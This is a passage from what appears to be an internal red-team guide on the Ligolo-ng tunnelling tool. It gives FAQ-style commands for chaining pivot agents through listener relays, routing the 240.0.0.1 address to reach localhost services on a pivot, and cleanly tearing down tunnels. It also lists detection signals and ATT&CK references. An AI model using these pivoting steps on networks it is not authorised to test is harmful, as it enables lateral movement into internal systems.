Run a second agent on the next pivot and point it at a listener relay on the first pivot (`listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:11601`). The relay forwards the callback back to the proxy, a second session registers, and `autoroute` extends routing into the next segment.

### What is the `240.0.0.1` IP?
A special virtual IP mapping to the agent's loopback. Route it (`ip route add 240.0.0.1/32 dev ligolo`) to scan services bound to `127.0.0.1` on the pivot.

### Is Ligolo-ng detectable?
Yes. Key signals: long-lived outbound TLS to unknown IPs, unknown binaries owning new listening ports (relays), and router-like east-west fan-out from a single pivot. TUN detection on the pivot is not a signal — the agent creates no TUN there.

### How do I tear down a tunnel cleanly?
In order: `tunnel_stop`, then `listener_stop` for each relay, `route_del` for each route, `ifdel` for each TUN, and `kill` to terminate the agent session. Audit with `listener_list`/`route_list`/`ifconfig_list` first.

---

## References

- Ligolo-ng project and releases: <https://github.com/nicocha30/ligolo-ng>
- MITRE ATT&CK T1572 — Protocol Tunneling: <https://attack.mitre.org/techniques/T1572/>
- MITRE ATT&CK T1021 — Remote Services: <https://attack.mitre.org/techniques/T1021/>
- NetExec: <https://github.com/Pennyw0rth/NetExec>
- Evil-WinRM: <https://github.com/Hackplayers/evil-winrm>

> *Internal: see [Tools index](/docs/tools/) for more offensive tooling guides, and the [red team section](/docs/redteam/) for related tradecraft.*
